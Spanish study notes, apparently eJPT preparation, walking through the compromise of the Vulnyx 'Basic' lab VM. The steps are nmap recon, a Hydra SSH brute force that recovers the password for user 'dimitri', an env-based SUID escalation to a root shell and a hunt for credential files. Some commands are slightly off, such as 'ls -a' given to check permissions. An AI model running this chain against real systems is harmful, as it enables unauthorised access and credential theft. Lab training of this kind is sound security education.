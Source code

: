  
----
- TAG: #Escalada-De-Privilegios #Linux #Binarios #SUID 
-----
## Escalada de Privilegios con Binarios SUID

En este apartado, repasaremos la escalada de privilegios utilizando binarios **SUID**. Realizaremos un ejercicio similar al anterior, pero con un binario y una máquina diferente.

### Requisitos

1. **Kali Linux** como máquina atacante.
2. **Vulnyx Basic** como máquina víctima - [Descargar aquí](https://vulnyx.com/#basic)
    - Importa la máquina en VirtualBox.
    - Configura el adaptador de red en modo puente.
    - Inicia la máquina.

### Pasos

1. Desde la máquina atacante (Kali Linux), utilizamos `arp-scan` para identificar la máquina víctima en la red local:

```bash
sudo arp-scan -I eth0 --localnet
```

2. Verifica la conectividad con la máquina víctima utilizando `ping` y determina el tipo de sistema:

```bash
ping -c 1 1.2.3.4
```

3. Realiza un escaneo con `nmap` para identificar posibles vulnerabilidades:

```bash
nmap -p- -sS -sC -sV --open --min-rate=5000 -vvv -n -Pn 1.2.3.4 -oN escaneo
```
- **`-p-`**: Indicamos que se deben escanear **todos los puertos** (desde el 1 hasta el 65535).
- **`-sS`**: Realiza un **escaneo SYN**, que es más sigiloso que un escaneo TCP porque no establece una conexión completa.
- **`-sC`**: Usamos los **scripts por defecto** de Nmap
- **`-sV`**: Realizamos una **detección de versiones** de los servicios que estén ejecutándose en los puertos abiertos.
- **`--open`**: Solo muestra los **puertos abiertos**
- **`--min-rate=5000`**: Para establecer una tasa mínima de **5000 paquetes por segundo**.
- **`-vvv`**: Nos muestra más detalles en tiempo real durante el escaneo.
- **`-n`**: Desactiva la resolución  DNS. Es decir, no intentará convertir las direcciones IP en nombres de dominio.
- **`-Pn`**: Indica que no se debe realizar un **ping previo** para verificar si el host está activo.
- **`-oN escaneo`**: Guarda el resultado del escaneo en un archivo llamado **`escaneo`** en formato normal (texto plano).

4. El escaneo revela que el puerto `80` está abierto. Accede al servicio web en ese puerto para investigar:

```bash
http://1.2.3.4
```

   En la página, vemos una plantilla de Apache, sin nada fuera de lo común.

5. El escaneo de `nmap` también muestra que los puertos `22`, `80` y `631` están abiertos. Al explorar el puerto `631`, encontramos un panel con varias opciones. Navegando a la sección `Printers`, encontramos un usuario llamado `dimitri`.

6. Dado que encontramos un usuario, podemos intentar un ataque de fuerza bruta para descubrir su contraseña. Como el puerto `22` (SSH) está abierto, utilizaremos **Hydra** para realizar el ataque:

```bash
hydra -l dimitri -P /usr/share/wordlists/rockyou.txt ssh://1.2.3.4
```
- `-l` : Especifica el nombre de usuario a utilizar en el ataque.
- `-P` : Define el **diccionario de contraseñas** que se utilizará en el ataque de fuerza bruta
- `ssh:` : Indica el **protocolo y la dirección IP** del objetivo.

   **Nota:** Este proceso puede tardar, ya que la contraseña se encuentra en las últimas entradas del diccionario.

7. Una vez encontrada la contraseña:

```bash
dimitri:mememe
```

   Intenta iniciar sesión en el protocolo SSH:
   
```bash
ssh dimitri@1.2.3.4
```

   Introduce la contraseña cuando se te solicite:

```bash
mememe
```

8. Ahora, procederemos a escalar privilegios, como se explicó en la clase anterior, aprovechando los binarios **SUID**. Para ello, utilizamos el siguiente comando:

```bash
find / -perm -4000 2>/dev/null
```

   Esto listará todos los binarios SUID en el sistema. Si identificas uno que no debería estar ahí, como `env` en este caso, podemos usar `GTFObins` para confirmar si es común o no.
   
- Verificamos que efectivamente se encuentra mal configurado este archivo con 
```bash
ls -a /usr/bin/env
```

1. Utilizando `env`, ejecutamos los pasos sugeridos para obtener privilegios elevados:

 ```bash
sudo install -m =xs $(which env) .
env /bin/sh -p
```

   Si todo sale bien, deberías estar dentro como usuario `root`.

Ahora podríamos ejecutar el comando que queramos para ver más información sobre la máquina:

- Ver interfaces de red y direcciones IP
```bash
ip a
```

- Ver servicios corriendo:
```bash
ps aux
```

- Buscar archivos que contengan la palabra 'password' u otras credenciales:
```bash
find / -name "password" 2>/dev/null
```
### Conclusión

Dominar esta técnica es crucial, ya que en el examen eJPT, al menos en una máquina, será necesario realizar una escalada de privilegios.

---
